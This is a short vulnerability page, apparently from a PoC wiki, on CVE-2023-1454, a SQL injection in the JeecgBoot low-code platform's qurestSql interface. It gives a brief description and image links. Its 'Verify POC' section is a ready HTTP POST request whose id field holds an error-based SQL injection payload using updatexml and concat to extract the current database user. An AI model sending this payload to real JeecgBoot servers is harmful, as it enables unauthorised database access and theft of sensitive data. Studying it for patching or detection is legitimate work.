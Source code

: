 # JeecgBoot Enterprise-level low-code platform qurestSql SQL injection vulnerability CVE-2023-1454

## Vulnerability Description

JeecgBoot Enterprise-level low-code platform The qurestSql interface has a SQL injection vulnerability. The attacker can obtain sensitive data in the server database through the vulnerability, and further attack

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">JeecgBoot enterprise-level low-code platform</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1682420232051-1d3e49d3-7a22-4d59-ac7c-236c0bf1c43f.png)

Verify POC

```php
POST /jeecg-boot/jmreport/qurestSql HTTP/1.1
Content-Type: application/json

{"apiSelectId":"1290104038414721025",
"id":"1' or '%1%' like (updatexml(0x3a,concat(1,(select current_user)),1)) or '%%' like '"}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1682420079923-7ddb27e1-df81-402f-a87e-7f06c2d119c9.png)